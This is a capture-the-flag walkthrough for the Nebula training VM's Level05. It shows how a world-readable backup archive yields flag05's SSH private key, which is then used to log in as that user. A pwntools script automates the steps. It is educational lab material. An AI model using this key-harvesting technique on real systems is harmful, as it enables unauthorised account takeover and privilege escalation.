 # Level05

#### Description

Check the **flag05** home directory. You are looking for weak directory permissions

To do this level, log in as the **level05** account with the password **level05**. Files for this level can be found in /home/flag05.

#### Solution

```bash
level05@nebula:~$ cd /home/flag05
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
level05@nebula:/home/flag05$ cd .backup
level05@nebula:/home/flag05/.backup$ ls -la
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```

Looking inside /home/flag05 directory, we can see a .backup directory and inside that a compressed backup file is stored, we can simply extract it but not in that same directory as we do not have write permission over there.

```bash
level05@nebula:/home/flag05/.backup$ cd /tmp
level05@nebula:/tmp$ tar -xvzf /home/flag05/.backup/backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:/tmp$ ls -la
total 0
drwxrwxrwt 7 root    root    140 2025-09-28 02:56 .
drwxr-xr-x 1 root    root    220 2025-09-28 08:20 ..
drwxrwxrwt 2 root    root     40 2025-09-28 08:20 .ICE-unix
drwxr-xr-x 2 level05 level05 100 2011-07-19 02:37 .ssh
drwxrwxrwt 2 root    root     40 2025-09-28 08:20 VMwareDnD
drwx------ 2 root    root    100 2025-09-28 08:20 vmware-root
drwxrwxrwt 2 root    root     40 2025-09-28 08:20 .X11-unix
```

And it extracted a folder named .ssh and some private information like id\_rsa keys etc. We can now simply use that id\_rsa key to log into flag05 account.&#x20;

```bash
level05@nebula:/tmp/.ssh$ ls -la
total 12
drwxr-xr-x 2 level05 level05  100 2011-07-19 02:37 .
drwxrwxrwt 7 root    root     140 2025-09-28 02:57 ..
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 authorized_keys
-rwx--x--x 1 level05 level05 1675 2011-07-19 02:37 id_rsa
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 id_rsa.pub
level05@nebula:/tmp/.ssh$ chmod 600 id_rsa
level05@nebula:/tmp/.ssh$ ssh -i id_rsa flag05@localhost
.......
flag05@nebula:~$ id
uid=994(flag05) gid=994(flag05) groups=994(flag05)
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level05', password='level05')

# Extract that backup file in /tmp directory and give id_rsa file 600 permission.
session.run("cd /tmp && tar -xvzf /home/flag05/.backup/backup-19072011.tgz")
session.run("chmod 600 /tmp/.ssh/id_rsa")

# Start remote shell and trigger ssh connection to flag05 account
terminal = session.shell()
terminal.sendline("ssh -i /tmp/.ssh/id_rsa flag05@localhost")
terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>
